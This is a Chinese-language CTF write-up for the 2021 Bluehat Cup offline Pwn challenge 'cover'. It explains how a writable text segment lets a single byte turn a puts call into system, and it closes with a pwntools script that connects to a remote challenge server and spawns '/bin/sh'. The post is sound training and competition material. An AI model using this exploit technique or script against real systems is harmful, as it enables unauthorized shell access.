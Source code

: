 ```yaml
---
layout: article
pageview: true
key: 2021-07-28-bluehat2021-pwn-wp
title: 蓝帽杯2021线下Pwn题WP
author: Ch4rc0al
#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## cover

>     Arch:     i386-32-little
>     RELRO:    Partial RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x8048000)



线下唯一做出来的题

> mprotect(&dword_8048000, 0x8888u, 7);

开头将源程序的0x8048000+0x8888的部分的权限改为了**可读可写可执行**

main 函数内容

```c
buf_1 = 0;
buf_2 = 0;
printf("Try use a bullet to pwn this%s\n", (const char *)&buf_1);
read(0, &buf_1, 5u);
if ( (int)buf_1 > (int)"ou launch the bullet, and... What's your name?%c\n" )
{
  printf("%p is too big...\n", buf_1);
  exit(0);
}
*buf_1 = buf_2;
printf("OK,you launch the bullet, and... What's your name?%c\n", SHIBYTE(v5));
read(0, &buf_1, 0xAu);
puts((const char *)&buf_1);
```

其中`(int)"ou launch the bullet, and... What's your name?%c\n"`的地址为0x8048888，程序会在buf_1输入一个地址，并且将buf_2的内容写入到buf_1地址对应的内存中。

由于是32位程序，我们可以溢出buf_1使buf_2的内容被修改。

由于0x8048000-0x8048888之间的内容包括`text`段，所以我们可以修改程序的`text`段来达到修改程序执行流的效果，我们可以将调用`puts`的内容改为调用`system`来运行`system("/bin/sh")`

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
sh=remote('118.190.62.234',12435)
#sh=process('./pwn')
#08040000-08048888
p1=p32(0x08048792)
print p1
sh.sendafter('Try use a bullet to pwn this\n',p1+p8(0x4a))
sh.sendafter("OK,you launch the bullet, and... What's your name?",'/bin/sh')
sh.interactive()

```




